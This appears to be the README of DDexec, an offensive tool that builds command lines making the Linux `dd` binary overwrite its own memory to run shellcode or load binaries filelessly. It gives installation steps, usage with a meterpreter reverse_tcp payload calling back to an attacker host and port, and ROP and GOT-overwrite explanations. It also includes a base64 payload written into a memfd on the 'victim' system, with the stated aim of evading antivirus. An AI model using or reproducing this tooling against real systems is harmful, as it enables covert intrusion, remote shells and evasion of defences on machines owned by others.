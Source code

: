 # DDexec

## Installation
```bash
sudo apt-get update
sudo apt-get install readelf objdump xclip -y # xclip is optional but recommended 
sudo pip3 install ROPGadget
```

## Execution
First of all you need to to **download some files from the victim system**:
- **Dowload the `dd` binary**. Find it with `command -v dd`. This is required.
- **Download the libc library**. Find it with `ldd $(command -v dd) | grep libc | cut -d' ' -f3`. *This is required with mode "retsled"*.
- **Get the Libc base address from the target executing: `printf "0x";(linux64 -R setarch $ARCH -R cat /proc/self/maps || setarch `arch` -R cat /proc/self/maps) | grep libc | head -n1 | cut -d'-' -f1`**

*Note that in the **STDOUT is only going to be printed the commands to execute in the victim machine**. Banner, information and logs are printed in STDERR.*

Then execute `DDexec.sh` with `xclip` and the **clipboard will be populated** with the command line you need to run in the victim system.
```bash
bash DDexec.sh -l /tmp/victim/libc.so.6 -d /tmp/victim/dd -a x86_64 -H 127.0.0.1 -P 4444 -p linux/x64/meterpreter/reverse_tcp | xclip -selection clipboard
```
**Paste the clipboard in the reverse-shell of the victim and the shellcode/binary will be run.**
*To run a binary you need to use the argument `-b`. Please, read the **Binary Load** section to learn how*

## Help
```
Use this program to execute shellcodes and binaries in memory.
Arguments:
    -h Print this help
    -d Path to the victim dd binary (you should download it from the victim). Find it with 'command -v dd' Required.
    -l Path to the victim libc (you should download it from the victim). Find it with 'ldd `command -v dd` | grep libc | cut -d' ' -f3'. Required with mode "retsled".
    -H LHOST to receive the meterpreter
    -P LPORT to receive the meterpreter.
    -p Metasploit payload (by default linux/x64/meterpreter/reverse_tcp)
    -a Architecture of the victim system. Get it with 'uname -m'. Required.
    -m Mode of memory load. By default fclose_got if dd binary not protected with full relro, if protected, retsled is forced.
    -s Shellcode to execute in hex "4831c0b002...". If msfvenom params are given, msfvenom will create a shellcode. By default a shellcode that echoes "Pwnd!" is used.
    -b Binary to load in memory. It has to be either statically linked or use the same dynamic libs as on a target machine.

e.g.: DDexec.sh -d /path/to/dd [-l /path/to/libc] -P 4444 -H 10.10.10.10 -a x86_64 [-m <fclose_got,retsled> (default fclose_got)] [-s <shellcode_hex>]
```

## Explanation
DDexec is a technique to **load arbitrary shellcodes and binaries in memory from a shell** in a linux system without needing to write anything into disk.

This can help you **avoid AVs and protections** (*like a filesystem mounted as Read Only*).

Basically, this program will prepare a cmd line that will make **`dd` overwrite itself during execution in memory and execute a defined shellcode or a different binary.**

Therefore, what the prepared cmd line is going to do is to use **`dd` to write a shellcode its own memory (via */proc/self/mem*) and then get control the RIP of the dd process to execute the shellcode**.

In order to control the RIP **2 techniques** are implemented in `DDexec.sh`:

### Retsled
**This technique was defined and developed by [Arget](https://github.com/arget13) a good friend of mine and a really awesome guy in binary exploitation.**

This technique uses a retsled to overwrite an important part of the stack of the proccess with the goal of overwritting a RIP address inside the stack with a series of RET. At the end of the retsled a ROP chain is located, so once the RIP is controled by a RET instruction of the retsled the execution will arrive to the ROP chain.

This ROP chain will read the shellcode usnig the `read()` function from `libc` and write it in `0x0000555555554000`.

*This technique generates a **bigger cmd line** than then next technique, maily because of the retsled, but **works with any `dd`**. It's the default teachnique when the dd binary is protected with full relro*

### fclose GOT
Based on the technique described in https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md this technique **writes the shellcode in the GOT** of the last function executed by `dd` before exiting: **`fclose`**. Therefore, when **`fclose` is executed, the shellcode will be executed instead**.

*This technique **won't work if the `dd` binary is protected with full relro** because then the GOT table isn't writable*


*Both techniques are possible because the **ASLR is disabled** when executing `dd` using `setarch`.*

### Binary load
This technique was taken from **https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.mdaslr**.

In orer to **load a binary inside dd and execute it** the following steps are performed:
- Use a shellcode which will create a memfd file in a memory. This is done using the system call *memfd_create()* which creates an anonymous file and returns a file descriptor that refers to it. The file **behaves like a regular file. However, it lives in RAM** and is automatically released when all references to it are dropped.
- Inject the shellcode into a `dd` process (using one of the 2 previous techniques)
- 'suspend' the dd process (also done by the shellcode). Then, the memfd won't be deleted as long as the `dd` process is running.
- Write the binary to be executed inside the memfd file, and execute it.

To perform this steps with `DDexec.sh` you need to **indicate with the `-b` argument the path to the binary** you want to load in memory:
```bash
bash DDexec.sh -l /tmp/victim/libc.so.6 -d /tmp/victim/dd -a x86_64 -b /path/to/bin | xclip -selection clipboard
```
Then, **execute the new cmd line of the clipboard inside the target system**.
This will generate a new `dd` process which will have created and **exposed a memfd file** and suspended its execution (so it doesn't die).
You can see the new memf file exposed running:
```bash
ls -l /proc/$(pidof dd)/fd/
total 0
lrwx------ 1 kali kali 64 Dec 27 12:22 0 -> '/memfd:AAAA (deleted)'
lrwx------ 1 kali kali 64 Dec 27 12:25 2 -> /dev/pts/4
```
Notice how one of the file descriptors is **`memfd` aparently "deleted"**. Note how the fd is `0` (in this example).

Then, to **load the binary in memory** you just need to **write it in this file**. For that purpose `DDexec.sh` will have echoed **a cmd line prepared to decode the base64 of the binary and write it in the file descriptor** (*change the fd index of the cmd line if necessary*).

Just execute that cmd line in the target system. It will look like this:
```bash
# Change the fd number if necesSary
echo 'f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAAYGEAAAAAAABAAAAAAAAAAGg3AgAAAAAAAAAAAEAAOAALAEAAHgAdA...' | base64 -d > /proc/\$(pidof dd)/fd/0
```

Once you have executed this cmd line, you will have **loaded the binary in memory in that memfd**. So you can just execute it as a normal binary:
```bash
# Doing this you will be executing the loaded binary
## Change the fd number
/proc/\$(pidof dd)/fd/<num>
```